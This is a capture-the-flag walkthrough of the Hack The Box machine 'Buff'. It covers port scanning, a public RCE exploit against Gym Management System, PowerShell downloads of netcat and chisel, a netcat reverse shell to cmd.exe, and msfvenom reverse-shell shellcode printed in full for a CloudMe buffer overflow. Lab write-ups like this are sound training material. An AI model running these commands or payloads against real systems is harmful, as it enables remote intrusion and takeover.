




# HTB - Buff

#### Ip: 10.10.10.198
#### Name: Buff
#### Rating: Easy

----------------------------------------------------------------------


### Enumeration

I'll kick off enumerating this box by scanning all TCP ports with Nmap:

```text
┌──(ryan㉿kali)-[~/HTB/Buff]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.198 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-01 16:16 CDT
Nmap scan report for 10.10.10.198
Host is up (0.072s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
7680/tcp open  pando-pub
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 13.42 seconds
```

Looks like just 2 open ports. Lets look a bit more closely at these using the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Buff]
└─$ sudo nmap -sC -sV -T4 10.10.10.198 -p 7680,8080
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-01 16:18 CDT
Nmap scan report for 10.10.10.198
Host is up (0.064s latency).

PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-title: mrb3n's Bro Hut
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.49 seconds
```

Navigating to the site, we find what appears to be a gym website. I poked around not seeing too much of interest, until I found the Contact page. Looking here I find some more info about the software being used:


Not being familiar with this software, first thing I do is look it up using Searchsploit to see if there are any vulnerabilities/ exploits to be found.


Nice! I'm especially interested in the unauthenticated RCE exploit. You can either download it directly from searchsploit, or go out and grab it from ExploitDB (https://www.exploit-db.com/exploits/48506) Looking at the exploit, the comments state "Gym Management System version 1.0 suffers from an Unauthenticated File Upload Vulnerability allowing Remote Attackers to gain Remote Code Execution (RCE) on the Hosting Webserver via uploading a maliciously crafted PHP file that bypasses the image upload filters."

Interesting. Looking through the Python code, this should be good to just point and fire, with no changes needed.

### Exploitation


I execute the exploit at the target using:

`python2 gym-mgmt-system-rce.py http://10.10.10.198:8080/` 

(I'm using Python2, because this is an old script and I didn't want to have to go through and clean up all the print statements, after the transition to Python3)

The foothold was a breeze. After firing the script I'm presented with a web-shell, where I can grab user.txt.



### Privilege Escalation

This web-shell is not the best to work out of, so I'm going to create a reverse shell from the web-shell back to my machine, so I can enumerate more comfortably.

To do this I'll need to transfer a netcat executable to the target machine. First I'll set up a python webserver and on the target box fetch netcat with 

```text
powershell -c iwr http://10.10.14.28/nc.exe -outfile nc.exe"
```

Now that we have netcat on the target we can easily get a stable reverse shell by issuing:

```text
nc.exe 10.10.14.28 1234 -e cmd.exe
```

Great, now we have a stable, fully interactive shell to work with. 



Browsing around the machine, I find and interesting executable in Shaun's Downloads folder:



It also looks like the version number is being listed as well. Turning to ExploitDB to see if I can find any public exploits, I quickly find this one: https://www.exploit-db.com/exploits/48389. This is a Python script, which should be pretty straightforward to execute. 

But there is one small hurdle we'll have to get through first. Because this is exploit is written in python, and python is not normally installed on Windows machines, we'll need to use a tool like Chisel to tunnel from my machine to the victim.

So, lets get the exploit cleaned up and ready to execute and then transfer over Chisel to set up a tunnel.

### Modifying The Exploit

This is a pretty straight forward buffer overflow exploit which will only need  light updating. Looking at the code it looks like the shellcode provided opens up calc.exe, but we want something a bit more useful than that. So what we need to do is utilize msfvenom to create some new shell code that contains a reverse shell back to our box. We can do that as follows:

```text
┌──(ryan㉿kali)-[~/HTB/Buff]
└─$ msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.28 LPORT=4321 -b '\x00\x0A\x0D' -f python -v payload
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1899 bytes
payload =  b""
payload += b"\xdb\xc8\xd9\x74\x24\xf4\xbd\xbd\xdb\x9d\x98"
payload += b"\x5a\x29\xc9\xb1\x52\x83\xea\xfc\x31\x6a\x13"
payload += b"\x03\xd7\xc8\x7f\x6d\xdb\x07\xfd\x8e\x23\xd8"
payload += b"\x62\x06\xc6\xe9\xa2\x7c\x83\x5a\x13\xf6\xc1"
payload += b"\x56\xd8\x5a\xf1\xed\xac\x72\xf6\x46\x1a\xa5"
payload += b"\x39\x56\x37\x95\x58\xd4\x4a\xca\xba\xe5\x84"
payload += b"\x1f\xbb\x22\xf8\xd2\xe9\xfb\x76\x40\x1d\x8f"
payload += b"\xc3\x59\x96\xc3\xc2\xd9\x4b\x93\xe5\xc8\xda"
payload += b"\xaf\xbf\xca\xdd\x7c\xb4\x42\xc5\x61\xf1\x1d"
payload += b"\x7e\x51\x8d\x9f\x56\xab\x6e\x33\x97\x03\x9d"
payload += b"\x4d\xd0\xa4\x7e\x38\x28\xd7\x03\x3b\xef\xa5"
payload += b"\xdf\xce\xeb\x0e\xab\x69\xd7\xaf\x78\xef\x9c"
payload += b"\xbc\x35\x7b\xfa\xa0\xc8\xa8\x71\xdc\x41\x4f"
payload += b"\x55\x54\x11\x74\x71\x3c\xc1\x15\x20\x98\xa4"
payload += b"\x2a\x32\x43\x18\x8f\x39\x6e\x4d\xa2\x60\xe7"
payload += b"\xa2\x8f\x9a\xf7\xac\x98\xe9\xc5\x73\x33\x65"
payload += b"\x66\xfb\x9d\x72\x89\xd6\x5a\xec\x74\xd9\x9a"
payload += b"\x25\xb3\x8d\xca\x5d\x12\xae\x80\x9d\x9b\x7b"
payload += b"\x06\xcd\x33\xd4\xe7\xbd\xf3\x84\x8f\xd7\xfb"
payload += b"\xfb\xb0\xd8\xd1\x93\x5b\x23\xb2\x91\x91\x25"
payload += b"\x5e\xce\xa7\x39\x4e\xef\x21\xdf\x04\xff\x67"
payload += b"\x48\xb1\x66\x22\x02\x20\x66\xf8\x6f\x62\xec"
payload += b"\x0f\x90\x2d\x05\x65\x82\xda\xe5\x30\xf8\x4d"
payload += b"\xf9\xee\x94\x12\x68\x75\x64\x5c\x91\x22\x33"
payload += b"\x09\x67\x3b\xd1\xa7\xde\x95\xc7\x35\x86\xde"
payload += b"\x43\xe2\x7b\xe0\x4a\x67\xc7\xc6\x5c\xb1\xc8"
payload += b"\x42\x08\x6d\x9f\x1c\xe6\xcb\x49\xef\x50\x82"
payload += b"\x26\xb9\x34\x53\x05\x7a\x42\x5c\x40\x0c\xaa"
payload += b"\xed\x3d\x49\xd5\xc2\xa9\x5d\xae\x3e\x4a\xa1"
payload += b"\x65\xfb\x7a\xe8\x27\xaa\x12\xb5\xb2\xee\x7e"
payload += b"\x46\x69\x2c\x87\xc5\x9b\xcd\x7c\xd5\xee\xc8"
payload += b"\x39\x51\x03\xa1\x52\x34\x23\x16\x52\x1d"
```

With:
`-a` for the architecture
`-p` for the payload
`-b` for the bad-characters (we didn't need to fuzz these ourselves, just use what's in the exploit)
`-f` for the format
`-v` for the variable

After updating the shellcode in the exploit, that should be it for updating the script.

Next, lets use Chisel to set up a tunnel between our machine and the target:

### Chisel

Chisel is my favorite tool for situations like this, because it can be used on both Windows and Linux machines, doesn't require SSH access, and is incredibly straight forward.

First things first I need to copy Chisel over to the Buff machine. To do this I'll use the same PowerShell one-liner I used to transfer over netcat:

```text
powershell -c iwr http://10.10.14.28/chisel_1.8.1_windows_amd64 -outfile chisel.exe"
```

After that I'll start up chisel on my box:

```text
┌──(ryan㉿kali)-[~/Tools/pivoting]
└─$ ./chisel_1.8.1_linux_arm64 server -p 8000 --reverse
2023/05/02 15:29:04 server: Reverse tunnelling enabled
2023/05/02 15:29:04 server: Fingerprint 309WBxmCGAhbAagxYAXEhj/f1HJY4GMGfA5zduVlXEk=
2023/05/02 15:29:04 server: Listening on http://0.0.0.0:8000
```

And finally I'll connect back to my server from Buff:

```text
.chisel.exe client 10.10.14.28:8000 R:8888:localhost:8888
```

Cool, we should now have a tunnel to use now. Let's fire off the exploit and grab root.txt:

```text
python cloudme-1112-bof.py
```

and check our netcat listener for a reverse shell as administrator:



Nice!

This was a great easy level box, with a simple foothold and privilege escalation, but gave users the ability to practice tunneling, which makes it more unique and fun. 

Thanks for following along!

-Ryan

-----------------------------------------------------------------------
